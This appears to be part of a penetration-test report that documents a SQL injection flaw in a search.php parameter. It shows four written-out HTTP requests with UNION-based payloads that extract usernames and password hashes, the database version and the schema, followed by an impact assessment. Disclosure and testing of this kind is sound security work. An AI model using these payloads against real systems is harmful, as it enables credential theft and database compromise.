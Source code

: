 #### Step 1: Basic SQL Injection Test
```http
GET /search.php?id=1' HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
```

**Response**: MySQL error message revealing SQL syntax error

#### Step 2: Union-Based Data Extraction
```http
GET /search.php?id=1' UNION SELECT 1,username,password FROM users-- HTTP/1.1
Host: example.com
```

**Response**: Successfully extracted usernames and password hashes from the users table

#### Step 3: Database Information Gathering
```http
GET /search.php?id=1' UNION SELECT 1,database(),version()-- HTTP/1.1
Host: example.com
```

**Response**: 
- Database name: `ecommerce_db`
- MySQL version: `8.0.28-0ubuntu0.20.04.3`

#### Step 4: Complete Database Schema Enumeration
```http
GET /search.php?id=1' UNION SELECT 1,table_name,column_name FROM information_schema.columns WHERE table_schema='ecommerce_db'-- HTTP/1.1
Host: example.com
```

**Response**: Successfully enumerated all tables and columns in the database

### 📸 Evidence Screenshots

1. **Initial Error Message**: [Screenshot showing SQL error]
2. **Union Injection Success**: [Screenshot showing extracted data]
3. **Database Information**: [Screenshot showing database version and name]
4. **Schema Enumeration**: [Screenshot showing table/column information]

### 💥 Impact Assessment

#### 🎯 Technical Impact
- **Data Confidentiality**: Complete database compromise
- **Data Integrity**: Ability to modify/delete database records
- **Data Availability**: Potential for database corruption or deletion
- **Authentication Bypass**: Access to user credentials and session data

#### 👥 Business Impact
- **Customer Data Breach**: Exposure of PII, payment information, and credentials
- **Financial Loss**: Potential regulatory fines and legal liability
- **Reputation Damage**: Loss of customer trust and brand reputation
- **Operational Disruption**: Potential system downtime and recovery costs
